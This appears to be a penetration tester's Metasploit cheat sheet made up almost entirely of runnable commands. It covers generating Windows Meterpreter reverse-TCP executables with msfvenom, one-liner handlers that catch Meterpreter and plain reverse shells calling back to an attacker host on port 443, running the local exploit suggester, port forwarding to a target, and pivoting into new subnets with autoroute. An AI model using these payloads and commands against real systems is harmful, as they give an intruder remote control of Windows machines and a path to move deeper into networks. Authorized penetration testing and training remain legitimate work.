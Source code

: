 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Starting metasploit
```bash - kali
sudo msfdb run
```

#### Windows exe
64:
```bash - kali
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$KALI LPORT=443 -f exe > meterpreter64.exe
```

86:
```bash - kali
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$KALI LPORT=443 -f exe > meterpreter86.exe
```

#### Meterpreter Listener 1 Liner
64:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```
86:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```

#### Non-Meterpreter Listener 1 Liner
64:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/x64/shell_reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```
86:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/shell_reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```
#### Local Exploit Suggester
```meterpreter - kali
run post/multi/recon/local_exploit_suggester SHOWDESCRIPTION=true
```

```metereprter - kali
set verbose true
```

```metereprter - kali
set exitonsession false
```

#### Port Forward
```meterperter - kali
portfwd add -l 80 -p 80 -r $TARGET
```

#### Pivoting
```meterperter - kali
background
```

```meterperter - kali
use post/multi/manage/autoroute
```

set subnet to the new found subnet:
```meterperter - kali
set SUBNET x.x.x.x
```

```meterperter - kali
set SESSION 2
```

```meterperter - kali
exploit
```








